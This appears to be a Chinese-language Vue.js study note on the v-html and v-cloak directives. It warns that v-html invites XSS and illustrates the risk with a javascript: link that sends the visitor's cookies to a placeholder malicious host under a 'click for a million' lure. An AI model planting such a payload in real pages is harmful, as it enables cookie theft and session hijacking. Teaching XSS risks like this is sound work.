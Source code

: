 ## v-html

- v-html 會替換節點所有內容，{{ xx }} 則不會，可以解析 html 結構
- 有安全性問題，XSS 跨站腳本攻擊，盡量不要使用，只能在可信的內容上
- 需要透過 server 設定 HttpOnly 屬性來擋，才不被拿走
-

```html
<div id="root">
  <h2>{{msg}}</h2>
  <h2 v-html="str"></h2>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      msg: '你好安安安安安安'
      // 跳轉服務器 獲取當前網站所有cookie，以傳參數形式傳出去
      str:`<a href=javascript:location.href="http://www.somebadnet.com?"+document.cookie>點我獲取一百萬!</a>`
    },
  })
</script>
```

## v-clock

- 本身沒有值，是特殊屬性，Vue 創建完畢接管容器後會刪除 v-cloak 屬性
- 可以搭配 display:none 屬性，阻止未經過解析的模板渲染到畫面上(cdn 或網速問題)
- 腳本都放 body 前，先解析完模板再 loading script 時容易遇到（放 head 若 cdn 網速慢還是需要等待)

```html
<head>
  <style>
    [v-cloak] {
      display: none;
    }
  </style>
</head>

<div id="root">
  <h2 v-cloak>{{msg}}</h2>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      msg: '你好安安安安安安',
    },
  })
</script>
```
